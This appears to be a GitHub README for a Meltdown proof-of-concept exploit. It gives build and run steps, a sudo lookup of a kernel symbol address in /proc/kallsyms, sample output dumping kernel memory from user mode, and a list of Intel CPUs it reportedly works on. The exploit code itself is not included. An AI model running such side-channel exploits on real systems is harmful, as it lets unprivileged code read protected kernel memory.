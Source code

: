 # MELTDOWN EXPLOIT POC

Can only dump `linux_proc_banner` at the moment, since requires accessed memory
to be in cache and `linux_proc_banner` is cached on every read from
`/proc/version`

Build with make, run with ./run.sh.

Can't defeat KASLR yet, you will need to enter your password to find
`linux_proc_banner` in the `/proc/kallsyms` (or do it manually).

Based on `spec.c` from spectre paper https://spectreattack.com/spectre.pdf
and blog post https://cyber.wtf/2017/07/28/negative-result-reading-kernel-memory-from-user-mode/.

Pandora's box is open.

Result:
```
$ make
cc -O0   -c -o meltdown.o meltdown.c
cc   meltdown.o   -o meltdown
$ ./run.sh 
+ sudo awk /linux_proc_banner/ { print $1 } /proc/kallsyms
+ ./meltdown ffffffffa3e000a0 16
ffffffffa3e000a0 = %
ffffffffa3e000a1 = s
ffffffffa3e000a2 =  
ffffffffa3e000a3 = v
ffffffffa3e000a4 = e
ffffffffa3e000a5 = r
ffffffffa3e000a6 = s
ffffffffa3e000a7 = )
ffffffffa3e000a8 = o
ffffffffa3e000a9 = f
ffffffffa3e000aa =  
ffffffffa3e000ab = 
ffffffffa3e000ac = s
ffffffffa3e000ad =  
ffffffffa3e000ae = (
ffffffffa3e000af = b
ffffffffa3e000b0 = U
ffffffffa3e000b1 = i
ffffffffa3e000b2 = l
ffffffffa3e000b3 = d
ffffffffa3e000b4 = d
ffffffffa3e000b5 = @
```

# Does not work

If it compiles but fails with `Illegal instruction` then either your hardware
is very old or it is a VM. Try compiling with:

```shell
$ make CFLAGS=-DHAVE_RDTSCP=0 clean all
```

# Works on

1.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 158
model name	: Intel(R) Core(TM) i7-7700HQ CPU @ 2.80GHz
stepping	: 9
microcode	: 0x5e
cpu MHz		: 3685.083
cache size	: 6144 KB
physical id	: 0
```

2.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 94
model name	: Intel(R) Core(TM) i7-6700 CPU @ 3.40GHz
stepping	: 3
microcode	: 0x7c
cpu MHz		: 3975.078
cache size	: 8192 KB
physical id	: 0
```

3.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 42
model name	: Intel(R) Core(TM) i5-2410M CPU @ 2.30GHz
stepping	: 7
microcode	: 0x29
cpu MHz		: 802.697
cache size	: 3072 KB
physical id	: 0
```

4.
```
processor	: 0
vendor_id	: GenuineIntel
cpu family	: 6
model		: 79
model name	: Intel(R) Xeon(R) CPU E5-2650 v4 @ 2.20GHz
stepping	: 1
microcode	: 0x1
cpu MHz		: 2199.998
cache size	: 30720 KB
physical id	: 0
```
